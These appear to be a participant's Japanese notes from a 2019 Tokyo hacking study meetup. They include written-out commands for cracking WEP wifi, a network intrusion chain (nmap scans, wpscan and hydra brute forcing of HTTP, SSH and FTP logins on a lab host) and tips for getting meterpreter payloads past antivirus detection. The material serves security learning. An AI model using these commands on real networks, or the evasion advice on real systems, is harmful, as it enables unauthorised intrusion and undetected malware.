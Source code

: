 # ゆるいハッキング大会 in TOKYO 2019/05/25 in HSB

## 基本知識と業務で使えるセキュティ技術基礎知識
kodakにいた人
`zone-h` crackingされたweb一覧

まぁそうですよね．ExploitDB．
あの流出：ベネッセが合併した会社が原因　遺体バラバラ(2011)

0day = traffic accident

## WEP crack
aircrackはmonitor&analysis パケットを採取することで解析する
BF攻撃やList攻撃と違ってAPに攻撃と検知されづらい

kaliでwifiクラックします
```
$ airodump-ng wlan0mon
$ airodump-ng --channel <number> --bssid <MAC> -w <file_name> wlan0mon
```
だいたいデータが200000くらい貯まれば`aircrack-ng <file_name>.cap`してみる

クラックした結果，有意味なパスワードであればこのユーザは他のパスにも同じような文言を使用している可能性が高い．

[WEP crack note](https://nvnote.com/wep-crack-kalilinux/)
[ハッカーテキスト](http://www.byakuya-shobo.co.jp/hj/moh/)

WEPの偽装認証
```
$ airplay-ng -1 <間隔(s)> -q <Keep Aliveを送る間隔(s)> -a <MAC> wlan0mon
```
を使う方法がある

- Fern WiFiを使う方法でうまくいけない

## LPIC
LPIC 303はlevel1-2の後に受験できるけれど，セキュリティ関連らしい

Linux認定試験とは違うらしい．なんか最近分裂したよね．
LinuCにはちょっとお怒り

## Network Hacking
nmap --> zenmap(GUI)

FWでICMPをdropさせる方法でポートスキャンは守れる
攻撃者にめんどくさいと思わせることが大事

```
# Network内部調査 ポートスキャン
fping -g 192.168.20.1 192.168.20.254
nmap -sP 192.168.20.0-255

nmap 192.168.20.0/24 -sS -A
nmap 192.168.20.16 -sS -A

curl http://192.168.20.16/ | grep 'href='
curl http://192.168.20.16/staff/
curl http://192.168.20.16/wp/

wpscan --url 192.168.20.16/wp/ -e -u
cat user.txt
cat password.txt
wpscan --url 192.168.20.16/wp/ -w /root/password.txt --usernames /root/user.txt

hydra -L /root/user.txt -P /root/password.txt 192.168.20.16 http-get /staff
hydra -l /root/password.txt 192.168.20.16 ssh
ssh host:192.168.20.16 login:root password:password
# ftpが開いてるならこれが早い
hydra -L /rrot/user.txt -P /rrot/password.txt 192.168.20.16 ftp
```

## root_apple
マルウェア作れって言われたときの回避

いきなり外部ペネトレしてよと言われることもある
ネットに繋げられるTVにnmapしたら落ちた()
```
$ nmap -Pn -A -p <port>
$ adb connect <ip:port>
$ adb shell

```

### meterpreter
検知回避できるmalwareをつくろう
メモリー内で実行中の別プロセスに自らを挿入できる
- 主にエクスプロイット(サーバへの侵入)が成功した後に使用されるペイロードの１つとして使用される
> 侵入したサーバでMeterpreterを実行すると、サーバ内の調査、さらなる攻撃の実行、リモートでの操作など、様々な事が容易に可能になる。

実際に動いているかどうかはwiresharkで確認する

stageless mode
エンコードをより良く活用できる(検知されづらい)
ステージの通信を暗号化出来ないのか？ EnableStageEncodingがある Pythonなら`-f python`みたいなオプションで難読化コードを渡せる

meterpreterシェルを埋め込むことで
mimikatzが検出できなくなるほど，VirusTotalにも検知されなくなる

[lab.pentestit.ru](lab.pentestit.ru)
で対象環境への侵入を学べる

客用LANからプリンターへ接続することでadminに入った事例がある

## ナビープラス？ 片山さん

ファーウェイの調査
中国国内向けの機器の通信内容を調査
何も動かなさい状態で監視
3月上旬 500MBのDL　ファームウェア --> Blacklist.conf 大量のsoファイル
中間証明書が入っていた　もしかしてMan-In-The-Middle？採掘してる？

日本で無罪になった後，再びファームウェアアップデートがあった
中間証明書を利用したMan-In-The-Middleが行われている可能性